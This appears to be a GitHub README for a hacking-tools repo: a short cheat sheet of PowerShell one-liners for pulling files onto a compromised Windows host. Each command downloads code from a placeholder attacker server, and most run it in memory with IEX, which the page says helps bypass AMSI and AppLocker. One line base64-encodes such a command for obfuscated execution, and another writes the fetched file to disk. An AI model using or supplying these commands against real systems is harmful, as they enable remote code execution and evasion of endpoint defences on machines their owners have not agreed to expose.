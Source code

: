 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### Encoded (run in linux)
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
